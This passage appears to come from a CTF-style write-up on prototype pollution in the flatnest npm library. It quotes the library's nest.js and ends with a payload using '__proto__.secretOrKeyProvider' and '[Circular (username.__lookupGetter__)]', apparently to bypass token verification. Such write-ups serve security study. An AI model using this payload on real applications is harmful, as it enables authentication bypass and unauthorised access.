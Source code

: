 But how to write functions in JSON?

No need to, `flatnest` [supports circular reference](https://github.com/brycebaril/node-flatnest#notes) on both `nest` and `flatten` method, and here is how it will flatten (parse) it from string (as for `1.0.0`):

[*flatnest/nest.js*](https://github.com/brycebaril/node-flatnest/blob/b7d97ec64a04632378db87fcf3577bd51ac3ee39/nest.js)
```js
module.exports = nest

var seek = require("./seek")

var circular = /\[Circular \((.+)\)\]/
var nestedRe = /(\.|\[)/
var scrub = /]/g

function nest(obj) {
  var key,
      i,
      nested = {}

  var keys = Object.keys(obj)
  var len = keys.length
  for (i = 0; i < len; i++) {
    key = keys[i]

    if (typeof obj[key] == "string" && circular.test(obj[key])) {
      var ref = circular.exec(obj[key])[1]
      if (ref == "this")
        obj[key] = nested
      else
        obj[key] = seek(nested, ref)
    }
    insert(nested, key, obj[key])
  }

  return nested
}
...
```

Here it tries to check if string value equals `[Circular (<object properties here>)]`, and will try to seek for value by iterating through every property without prototype checking (isn't that the purpose of this attack?)

--> We can find a prototype function that ideally returns nullish value for most pratical cases

After many tries, i find that [`Object.prototype.__lookupGetter__`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__lookupGetter__) is the perfect candidate, so we can insert to our payload like this
```js
username: {
	"sus": "no",
	"__proto__.secretOrKeyProvider": "[Circular (username.__lookupGetter__)]",
	// ...
}
```
Why the first one? Because at first `username` is not appeared in `flatnest` lookup dictionary, so we need to make it "register" `username` for this parsing, so in this case just add any normal property and value.
